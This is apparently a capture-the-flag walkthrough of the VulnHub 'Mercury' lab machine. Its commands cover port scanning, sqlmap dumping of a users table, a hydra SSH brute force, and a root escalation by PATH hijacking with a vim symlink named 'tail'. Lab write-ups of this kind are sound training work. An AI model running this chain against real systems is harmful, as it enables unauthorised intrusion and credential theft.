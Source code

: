 # MERCURY
Mercury is an easier box, with no brute-forcing required. There are two flags on the box: a user and a root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware.

- image file can be downloaded from [here](https://www.vulnhub.com/entry/the-planets-mercury,544/)

<br>

## Enumeration
- nmap scan:
  <br>
  
![mercury_nmap](https://github.com/shybu9/vulnhub/assets/112984045/7ebc1461-7fb5-4bfd-8faa-1aaef88c3a8d)

- port scan using [personal_tool]():
 <br>
 
![mercury_portscan](https://github.com/shybu9/vulnhub/assets/112984045/d0eb86bf-00c2-4745-ae83-351a759a7f61)

- gobuster scan:
<br>

![mercury_gobuster_comman](https://github.com/shybu9/vulnhub/assets/112984045/77323c20-aae6-4529-a7bc-f1f671ba2e4e)

### After scan analysis:
- open ports: 22 (SSH) & 8080 (HTTP_PROXY)
- web directories: /robots.txt

### Web page enumeration:
<br>

![mercury_robots](https://github.com/shybu9/vulnhub/assets/112984045/3bb9d318-d61e-4137-93fb-1b3e43fa3364)
<br>
- robots.txt disallows '*' user agent for directory '/'

<br>

```
http://192.168.188.169/*
```
![mercury_ ](https://github.com/shybu9/vulnhub/assets/112984045/fa516418-d1a9-4bf0-b902-c5f47f3e01ca)

## Initial Foothold
- directory '/mercuryfacts' seems to have an SQLI-vulnerable perimeter
<br>

```
sqlmap --url http://192.168.188.169/mercuryfacts --dbs --batch
```
![mercury_sqli_dbs](https://github.com/shybu9/vulnhub/assets/112984045/bfe70f54-59d1-4b35-b53b-8e8d819b9699)
<br>

```
sqlmap --url http://192.168.188.169/mercuryfacts -D mercury --tables --batch
```
![mercury_sqli_users](https://github.com/shybu9/vulnhub/assets/112984045/7a120954-ee73-4338-ab15-746ce2399adc)
<br>
```
sqlmap --url http://192.168.188.169/mercuryfacts -D mercury -T users --dump --batch
```
![mercury_sqli_user_pass](https://github.com/shybu9/vulnhub/assets/112984045/77c357d5-59d6-4e5a-9f0a-9595d06c1465)

<br>

### Finding the right credentials using hydra
- A list of usernames and passwords can be generated from this sqlmap dumps
```
hydra -L users_list -P pswds_list ssh://192.168.188.169
```
![mercury_hydra](https://github.com/shybu9/vulnhub/assets/112984045/d766d37a-8ec7-41d6-bdb7-f3396375f6ac)
<br>

## User Flag
![mercury_userflag](https://github.com/shybu9/vulnhub/assets/112984045/a1eb18d5-2415-41da-9a72-a9bcf3c52dd2)
<br>

### horizantal privesc
- there was a note kept under 'mercury_proj' directory which has base64 encoded password of both web
<br>

```
cat mercury_proj/note.txt
```
![note_decode](https://github.com/shybu9/vulnhub/assets/112984045/92d43e5d-5988-4839-8d48-6413270dd0fe)

```
su linuxmaster
```
![mercury_note_su_linux_master](https://github.com/shybu9/vulnhub/assets/112984045/e589a2fd-3807-4b69-b3f5-ab7200119bcd)

<br>

## privesc to root

```
sudo -l
```
![mercury_cat_privesc](https://github.com/shybu9/vulnhub/assets/112984045/a77c673c-5217-4090-a0c4-b760339b08a0)

- file 'usr/bin/check_syslog.sh' can be executed by anyone but can only be edited by root.
- an environment variable 'tail' is used without mentioning the full path.
- this env variable can be abused by:

```
ln -s /usr/bin/vim tail
```
```
export PATH=$(pwd):$PATH
```
![mercury_privesc_cmds](https://github.com/shybu9/vulnhub/assets/112984045/d38882ca-4d10-4b60-a36b-1ac697a5d3b5)

```
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```
```
:!/bin/bash
```
![mercury_rootflag](https://github.com/shybu9/vulnhub/assets/112984045/027a1773-97e0-4567-ba41-e5682d724bb1)


